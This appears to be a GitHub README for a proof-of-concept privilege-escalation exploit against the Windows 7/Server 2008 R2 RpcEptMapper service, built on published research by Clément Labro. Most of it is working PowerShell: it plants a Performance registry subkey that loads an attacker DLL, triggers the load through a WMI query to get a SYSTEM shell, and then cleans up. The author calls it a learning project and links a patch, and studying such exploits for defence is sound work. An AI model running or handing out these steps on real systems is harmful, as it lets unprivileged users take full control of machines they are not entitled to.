 # Windows RpcEptMapper Service EoP exploit

Clément Labro ([@itm4n](https://twitter.com/itm4n)) released in November 12, 2020 [all the details](https://itm4n.github.io/windows-registry-rpceptmapper-eop/) for a vulnerability on Windows 7 and Windows Server 2008 R2 that would allow an unprivileged user to escalate to SYSTEM. Based in his thorough description of the problem and also using his [dll template](https://gist.github.com/itm4n/253c5937f9b3408b390d51ac068a4d12#file-dllrpcendpointmapperpoc-cpp) I've coded my own version of the [exploit](https://twitter.com/neosysforensics/status/1327190096060297216), mainly as a learning process.

[Yesterday](https://twitter.com/itm4n/status/1359987926550077440) Clément Labro released a tool to take profit of the vulnerability, [Perfusion](https://github.com/itm4n/Perfusion), and now I think I can release my PoC without being disrespectful.

As indicated in the original blog post, In order to escalate privileges using the resulting DLL the appropriate registry key has to be created:


```
$ServiceKey = "SYSTEM\CurrentControlSet\Services\RpcEptMapper\Performance"
Write-Host "[*] Create 'Performance' subkey"
[void] [Microsoft.Win32.Registry]::LocalMachine.CreateSubKey($ServiceKey)
Write-Host "[*] Create 'Library' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Library" -Value "$($pwd)\DllRpcEndpointMapperPoc.dll" -PropertyType "String" -Force | Out-Null
Write-Host "[*] Create 'Open' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Open" -Value "OpenPerfData" -PropertyType "String" -Force | Out-Null
Write-Host "[*] Create 'Collect' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Collect" -Value "CollectPerfData" -PropertyType "String" -Force | Out-Null
Write-Host "[*] Create 'Close' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Close" -Value "ClosePerfData" -PropertyType "String" -Force | Out-Null
```

After that, to trigger the execution of the service execute the PowerShell command included below:

```
Get-WmiObject -List | Where-Object { $_.Name -Like "Win32_Perf*" }
```

If all goes well a SYSTEM shell will be show:

<p style="margin-left: 30px;"><img src="./001.png" style="border: 1px solid black;" alt="PoC execution" /></p>

In order to clean the environment or if something was wrong the next commands should be used to delete the registry key previously created:


```
$ServiceKey = "SYSTEM\CurrentControlSet\Services\RpcEptMapper\Performance"
Write-Host "[*] Cleanup"
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Library" -Force
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Open" -Force
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Collect" -Force
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Close" -Force
[Microsoft.Win32.Registry]::LocalMachine.DeleteSubKey($ServiceKey)
```

As I said, all the kudos to Clément Labro ([@itm4n](https://twitter.com/itm4n)) for his impressive work.

## Useful links

- [Windows RpcEptMapper Service Insecure Registry Permissions EoP](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)
- @itm4n gist: [Windows 7-2008R2 RpcEptMapper Service Insecure Registry Permissions EoP - PoC DLL](https://gist.github.com/itm4n/253c5937f9b3408b390d51ac068a4d12#file-dllrpcendpointmapperpoc-cpp)
- @masthoon gist: [Launch SYSTEM CMD in user current session (from a service)](https://gist.github.com/masthoon/6f81e466d458ff8056d76266b90d2b5e)
- [Retrieving the Last-Error Code](https://docs.microsoft.com/en-us/windows/win32/debug/retrieving-the-last-error-code)
- [CreateProcessAsUser fails with error 5 (Access Denied) when using Jobs](https://www.sysadmins.lv/retired-msft-blogs/alejacma/createprocessasuser-fails-with-error-5-access-denied-when-using-jobs.aspx)
- [Perfusion](https://github.com/itm4n/Perfusion)
- [RpcEptMapper elevation of privilege patch](https://github.com/GossiTheDog/fixes/tree/main/RpcEptMapper)

Happy Hacking!